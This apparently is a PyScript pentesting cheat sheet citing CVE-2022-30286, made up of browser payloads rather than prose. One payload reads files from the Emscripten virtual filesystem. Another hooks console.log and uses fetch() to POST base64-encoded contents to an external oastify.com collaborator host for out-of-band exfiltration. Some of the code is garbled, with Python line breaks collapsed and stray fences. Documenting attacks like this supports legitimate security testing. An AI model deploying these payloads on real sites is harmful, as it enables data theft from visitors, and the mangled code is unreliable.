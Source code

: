 # Pyscript


## PyScript Pentesting Guide

PyScript is a new framework developed for integrating Python into HTML so, it can be used alongside HTML. In this cheat sheet, you'll find how to use PyScript for your penetration testing purposes.

### Dumping / Retrieving files from the Emscripten virtual memory filesystem:

`CVE ID: CVE-2022-30286`\
\
Code:

```html
<py-script>
  with open('/lib/python3.10/site-packages/_pyodide/_base.py', 'r') as fin: out
  = fin.read() print(out)
</py-script>
```
```
Result:

![[https://user-images.githubusercontent.com/66295316/166847974-978c4e23-05fa-402f-884a-38d91329bac3.png|]]

### [[https://github.com/s/jcd3T19P0M8QRnU1KRDk/~/changes/Wn2j4r8jnHsV8mBiqPk5/blogs/the-art-of-vulnerability-chaining-pyscript|OOB Data Exfiltration of the Emscripten virtual memory filesystem (console monitoring)]]

`CVE ID: CVE-2022-30286`\
\
Code:

```html
<py-script>
  x = "CyberGuy" if x == "CyberGuy": with
  open('/lib/python3.10/asyncio/tasks.py') as output: contents = output.read()
  print(contents) print('
  <script>
    console.pylog = console.log
    console.logs = []
    console.log = function () {
      console.logs.push(Array.from(arguments))
      console.pylog.apply(console, arguments)
      fetch("http://9hrr8wowgvdxvlel2gtmqbspigo8cx.oastify.com/", {
        method: "POST",
        headers: { "Content-Type": "text/plain;charset=utf-8" },
        body: JSON.stringify({ content: btoa(console.logs) }),
      })
    }
  </script>
  ')
</py-script>
```
```
Result:

![[https://user-images.githubusercontent.com/66295316/166848198-49f71ccb-73cf-476b-b8f3-139e6371c432.png|]]

### Cross Site Scripting (Ordinary)

```